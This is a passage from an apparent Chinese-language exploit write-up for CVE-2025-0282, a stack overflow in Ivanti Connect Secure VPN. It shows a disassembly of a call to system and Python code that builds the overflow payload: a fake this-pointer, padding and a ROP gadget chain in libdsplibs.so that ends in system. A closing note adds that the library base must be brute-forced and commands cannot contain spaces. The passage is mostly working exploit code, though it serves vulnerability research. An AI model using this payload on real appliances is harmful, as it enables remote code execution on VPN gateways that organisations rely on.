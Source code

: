 最后随便找到一个调用system命令的地址即可，我使用以下地址  
```
.text:004F10E4 89 04 24           mov     [esp], eax      ; command
.text:004F10E7 E8 C4 7F F0 FF     call    _system
```  
```
fake_this = struct.pack('<I', libdsplibs_base + fake_this_address_va)
gadget = struct.pack('<I', libdsplibs_base + 0x00842264)  # mov ecx, esp ; ret
gadget += struct.pack('<I', libdsplibs_base + 0x007e3624)  # add ecx, -0x78 ; ret
gadget += struct.pack('<I', libdsplibs_base + 0x007ac375)  # xchg eax, ecx ; ret
gadget += struct.pack('<I', libdsplibs_base + 0x004F10E4)  # mov     [esp], eax ; call    _system

data = data.encode() + fake_this + b'B' * 2834 + b'QWERTYUIOPASDFGH' + b'C' * 100 + gadget
```  
  
以下是最终的执行效果图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeClsX24xuSPKdqibtUaTumUOFhWWNtHVfjbGyVkfY0UZmJ2GlS7mjMLg/640?wx_fmt=png&from=appmsg "")  
  
  
**注意：**最后此漏洞想要利用的必须要爆破libdsplibs.so的基址，还有就是命令中不能带有空格。  
  
参考链接：  
  
https://mp.weixin.qq.com/s/e6X7GcKq1DaipmfsRqNq2w  
  
https://labs.watchtowr.com/do-secure-by-design-pledges-come-with-stickers-ivanti-connect-secure-rce-cve-2025-0282/  
  
https://www.infradead.org/openconnect/building.html  
  
https://bestwing.me/CVE-2025-0282-Ivanti-Connect-Secure-VPN-stack-overflow.html#fn:2  
  
  
